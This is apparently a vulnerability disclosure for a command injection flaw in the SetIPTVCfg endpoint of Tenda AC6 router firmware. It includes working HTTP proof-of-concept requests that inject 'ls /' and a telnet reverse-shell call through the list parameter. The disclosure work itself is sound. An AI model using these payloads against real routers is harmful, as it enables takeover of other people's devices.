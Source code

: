 # Tenda AC6 Routers Command Injection in formSetIptv

## Overview
Tenda AC6 Router is a consumer-grade wireless router supporting IPTV configuration, firewall, and multi-WAN features. A command injection vulnerability exists in the formSetIptv function, which handles requests to the /goform/SetIPTVCfg endpoint. Attackers can inject arbitrary system commands via the list or vlanId parameters, leading to unauthorized device control or complete compromise.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)


## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC Series Routers
- **Firmware**: Tenda AC6V1.0 V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681]
- **Endpoint**: /goform/SetIPTVCfg
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)


### Description
The formSetIptv function processes POST requests to /goform/SetIPTVCfg. It extracts user-controlled parameters list and vlanId via sub_2B794 (a parameter parsing function) and passes them to the sub_ADBC0 helper function.

In sub_ADBC0, these parameters are directly interpolated into nvram set commands (e.g., nvram set adv.iptv.stballvlans="%s") without any input sanitization. The commands are executed via doSystemCmd, a function that runs system commands directly.

By injecting special characters (e.g., "; , #), attackers can escape the quoted context of the nvram command and execute arbitrary system commands on the router.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## Proof of Concept (PoC)

### PoC 1: List Root Directory (`ls /`)
```
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; ls /"
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

### PoC 2: Reverse shell
```
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; telnet 192.168.x.x 9999"

```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
